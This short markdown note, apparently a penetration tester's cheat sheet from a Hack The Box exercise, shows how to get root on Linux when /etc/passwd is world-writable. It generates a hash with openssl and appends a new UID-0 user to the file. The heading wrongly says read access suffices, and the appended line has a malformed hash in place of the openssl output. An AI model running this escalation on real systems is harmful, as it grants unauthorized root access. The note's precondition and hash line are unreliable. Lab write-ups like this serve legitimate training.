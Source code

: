 # Privesc

## Privesc method when have read access to /etc/passwd

Probably never happends but document it just in case as I just experienced this on htb machine

```sh
root@bank:~# ls -l /etc/passwd
-rw-rw-rw- 1 root root 1356 May  1 22:31 /etc/passwd
openssl passwd -1 -salt xyz \<password\>
echo "username:\$xyz\$\<password\>:0:0:toor,,,:/root:/bin/bash" >> /etc/passwd
```
